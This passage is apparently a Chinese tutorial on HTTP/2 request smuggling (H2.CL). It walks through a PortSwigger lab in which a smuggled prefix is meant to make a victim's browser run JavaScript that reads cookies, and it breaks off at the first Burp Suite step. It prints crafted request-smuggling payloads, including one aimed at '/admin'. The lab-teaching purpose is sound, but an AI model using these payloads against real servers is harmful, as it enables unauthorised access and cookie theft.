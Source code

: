 ```c
:method POST
:path   /example
:authority  vulnerable-website.com
content-type    application/x-www-form-urlencoded
content-length  0
GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10
x=1
```

那么此时后端请求数据报文将如下：

```c
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10
x=1GET / H
```

下面我们通过一个靶场进行演示介绍：

靶场地址：[https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling "https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling")

靶场介绍：此靶场容易受到请求走私的攻击，因为前端服务器会降低HTTP/2请求的级别，即使它们的长度不明确，要解决实验室问题，你需要执行请求走私攻击使受害者的浏览器从漏洞利用服务器加载并执行恶意JavaScript文件，调用alert(document.cookie)，受害者用户每10秒访问主页一次。

解题过程：

Step 1：访问上面的靶场链接地址，让后点击"ACCESS THELAB"进入靶场

![img](assets/1706773318-bd2b0c66723a558ed8c67cc9d156171d.png)

Step 2：使用Burp suite抓包并尝试在HTTP/2请求的正文中添加`Content-Length:0` 头的方式尝试走私前缀信息，需要注意的是在发送请求之前要将协议设置为HTTP/2

```c
POST / HTTP/2
Host: 0aed00cf039321e185db1c3f00a80002.web-security-academy.net
Content-Length: 0
SMUGGLED
```
